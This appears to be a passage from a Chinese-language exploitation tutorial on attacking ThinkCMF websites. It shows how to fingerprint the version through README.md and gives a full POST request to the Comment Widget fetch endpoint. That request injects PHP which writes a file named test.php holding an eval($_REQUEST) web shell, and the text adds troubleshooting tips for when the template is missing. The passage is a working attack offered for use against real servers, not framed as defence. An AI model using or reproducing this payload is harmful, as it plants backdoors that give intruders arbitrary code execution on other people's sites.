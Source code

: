 如果页面是蓝色的表示是3的，可日穿之

##### 3，查看 README.md

在网站url后面输入README.md

![image](img/66a7fb41690a820a99570045f04e9af6.png)

另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

![image](img/f98abbd0ce23861614a8fec6df6c1297.png)

请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个html即可

